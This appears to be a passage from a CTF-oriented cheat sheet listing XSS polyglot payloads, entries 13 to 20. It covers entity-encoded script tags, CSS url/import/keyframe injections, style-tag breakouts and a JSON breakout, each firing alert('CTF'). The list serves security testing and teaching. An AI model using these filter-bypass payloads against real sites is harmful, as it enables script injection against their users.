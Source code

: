 13. **Mixed Encoding Tag**  
    ```
    <scr&#x69;pt>alert('CTF')</scr&#x69;pt>
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Combines HTML entities and standard tags.

14. **Decimal Encoded Script**  
    ```
    &#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;alert('CTF')&#60;/&#115;&#99;&#114;&#105;&#112;&#116;&#62;
    ```
    - **Contexts**: HTML, JavaScript.
    - **Use Case**: Bypasses decimal-encoded tag filters.

### CSS Injection Polyglots
15. **CSS Background URL**  
    ```
    background:url('javascript:alert("CTF")')//</style><svg onload=alert('CTF')>
    ```
    - **Contexts**: CSS, HTML, JavaScript, SVG.
    - **Use Case**: Tests CSS injection in style attributes.

16. **CSS Import Injection**  
    ```
    @import"javascript:alert('CTF')";//</style><svg onload=alert('CTF')>
    ```
    - **Contexts**: CSS, HTML, JavaScript, SVG.
    - **Use Case**: Tests CSS import vulnerabilities.

17. **CSS Keyframe Polyglot**  
    ```
    @keyframes x{from{x:alert('CTF')}}//</style><svg onload=alert('CTF')>
    ```
    - **Contexts**: CSS, HTML, JavaScript, SVG.
    - **Use Case**: Tests CSS keyframe injections.

18. **CSS URL Function**  
    ```
    url('javascript:alert("CTF")')//<svg onload=alert('CTF')>
    ```
    - **Contexts**: CSS, HTML, JavaScript, SVG.
    - **Use Case**: Tests CSS URL function injections.

19. **Style Tag Breakout**  
    ```
    </style><script>alert('CTF')</script><svg onload=alert('CTF')>
    ```
    - **Contexts**: Style tags, HTML, JavaScript, SVG.
    - **Use Case**: Escapes `<style>` reflections.

### Advanced Multi-Context Polyglots
20. **JSON Breakout**  
    ```
    {"x":"\"};alert('CTF');//","y":""}
    ```
    - **Contexts**: JSON, JavaScript, HTML.
    - **Use Case**: Escapes JSON reflections into JavaScript contexts.
